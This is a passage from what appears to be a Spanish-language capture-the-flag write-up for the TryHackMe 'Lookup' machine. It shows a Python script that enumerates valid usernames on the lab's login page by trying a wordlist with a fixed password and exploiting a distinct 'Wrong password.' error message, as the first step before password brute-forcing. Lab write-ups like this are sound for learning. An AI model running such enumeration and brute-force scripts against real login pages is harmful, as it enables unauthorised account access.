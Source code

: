 ![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Lookup/3.png)

Esto nos llama la atención, por lo que el siguiente paso deberá ser la enumeración de usuarios registrados en la base de datos, para posteriormente realizar ataques automatizados de contraseñas y ganar acceso al aplicativo.

Creamos un pequeño script de **Python** para realizar la enumeración de usuarios existente:

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import requests, re, time, sys
from random import randint

url = "http://lookup.thm/login.php"
headers_data = ''

if __name__ == '__main__':
        
        s = requests.session()

        print("[*] User bruteforce starting...")

        fp = open('/usr/share/seclists/Usernames/Names/names.txt', errors='ignore')
        for username in fp.readlines():
                r = s.get(url, verify=False)

                post_data = {
                        'username': '%s' % username.rstrip(),
                        'password': '123456'
                }

                r = s.post(url, data=post_data, headers=headers_data, verify=False)
        
                if "Wrong password." in r.text:
                        print("[+] User found!!!: %s" % username)
                
        fp.close()
```

